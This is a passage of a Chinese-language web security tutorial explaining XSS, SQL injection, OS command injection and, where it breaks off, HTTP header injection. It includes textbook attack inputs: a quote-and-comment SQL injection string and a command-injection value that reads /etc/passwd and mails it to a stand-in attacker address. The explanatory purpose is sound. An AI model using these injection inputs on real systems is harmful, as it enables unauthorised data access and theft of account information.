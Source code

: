 针对客户端的验证仅是为了尽早的识别错误，真正的验证是在web应用端的输入，对处理后的数据进行转义也是一项重要的安全策略，输出值转义不完全也会引发安全问题。

### 跨站脚本攻击XSS

跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。动态创建的HTML部分有可能隐藏着安全漏洞

造成的危害：

1、利用虚假输入表单骗取用户个人信息

2、窃取用户的Cookie值，发送恶意请求

3、显示伪造的文章或图片

若某网站的输入框对用户的输入不做校验，用户可能会输入script标签，当这段内容在页面上展示时就会运行攻击者事先准备好的脚本。

攻击者也可以伪造一个网站或者一个页面、邮件，在这个网站输入用户密码之后，不是形成一个正常的url去访问正常的网站，而是在url里面植入了恶意的带script标签的脚本，当用户点击时就可以执行这段脚本，可以将用户信息发送到攻击者的网站，还可以窃取到用户的Cookie信息。

### SQL注入攻击

sql注入的危害：非法查看或者篡改数据库、规避认证等

当页面进行查询动作时向服务器传了一个url，将要查询的作者名上野宣传给服务器，此时服务器执行这条逻辑返回对应数据

~~~sql
SELECT * FROM bookTbl WHERE author = '上野宣' and flag = '1'
~~~

当攻击者传一个上野宣‘--时，最后执行的sql语句就会变为：

~~~sql
SELECT * FROM bookTbl WHERE author = '上野宣''-- and flag = '1'
~~~

因为--后算注释，所以相当于忽略了flag = '1'的条件，直接跨过了权限校验的逻辑，非法查看了数据。

### OS命令注入攻击

OS 命令注入攻击（OS Command Injection）是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。只要在能调用 Shell 函数的地方就有存在被攻击的风险。

攻击者通过url的方式将攻击发送到服务器，服务器为做好校验，就将攻击者的输入值作为命令的一部分来执行，从而执行非法的操作

如攻击者将下面这段信息作为邮件地址：

~~~
; cat /etc/passwd | mail hack@example.jp
~~~

程序接收该值，构成以下的命令组合：

~~~
/usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
~~~

从而将账户信息发送给了攻击者。

### HTTP首部注入攻击

HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应
首部字段内插入换行，添加任意响应首部或主体的一种攻击。
